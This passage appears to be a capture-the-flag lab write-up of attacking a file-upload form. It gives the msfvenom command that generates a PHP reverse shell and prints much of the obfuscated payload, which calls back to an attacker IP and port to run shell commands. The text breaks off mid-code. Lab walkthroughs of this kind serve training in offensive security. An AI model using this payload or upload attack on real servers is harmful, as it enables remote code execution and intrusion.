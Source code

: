 Under my 100kb, that beats the size requirement. I specify a file to hold my code:
 
 
``` bash
msfvenom -p php/reverse_php lhost=$ATTACK lport=1337 -f raw -o evil.php
```
 
And try an upload, which returns `Invalid file`.
 
This is expected as the form specifies the upload must be in image format.
 
I go to ZAP to get the details, the Request data from the latest edit page is:
 
```
-----------------------------6880877471789511041406832871
Content-Disposition: form-data; name="file"; filename="evil.php"
Content-Type: application/x-php
 
   /*<?php /**/
     @error_reporting(0);
     @set_time_limit(0); @ignore_user_abort(1); @ini_set('max_execution_time',0);
     $dis=@ini_get('disable_functions');
     if(!empty($dis)){
       $dis=preg_replace('/[, ]+/', ',', $dis);
       $dis=explode(',', $dis);
       $dis=array_map('trim', $dis);
     }else{
       $dis=array();
     }
    
   $ipaddr='10.10.14.34';
   $port=1337;
 
   if(!function_exists('CkLhPZUPboOwI')){
     function CkLhPZUPboOwI($c){
       global $dis;
      
     if (FALSE !== strpos(strtolower(PHP_OS), 'win' )) {
       $c=$c." 2>&1\n";
     }
     $EPWc='is_callable';
     $JZlmOv='in_array';
    
     if($EPWc('passthru')and!$JZlmOv('passthru',$dis)){
       ob_start();
       passthru($c);
       $o=ob_get_contents();
       ob_end_clean();
     }else
     if($EPWc('exec')and!$JZlmOv('exec',$dis)){
       $o=array();
       exec($c,$o);
       $o=join(chr(10),$o).chr(10);
     }else
     if($EPWc('proc_open')and!$JZlmOv('proc_open',$dis)){
       $handle=proc_open($c,array(array('pipe','r'),array('pipe','w'),array('pipe','w')),$pipes);
       $o=NULL;
       while(!feof($pipes[1])){
         $o.=fread($pipes[1],1024);
       }
       @proc_close($handle);
     }else
     if($EPWc('shell_exec')and!$JZlmOv('shell_exec',$dis)){
       $o=shell_exec($c);
     }else
     if($EPWc('popen')and!$JZlmOv('popen',$dis)){
       $fp=popen($c,'r');
```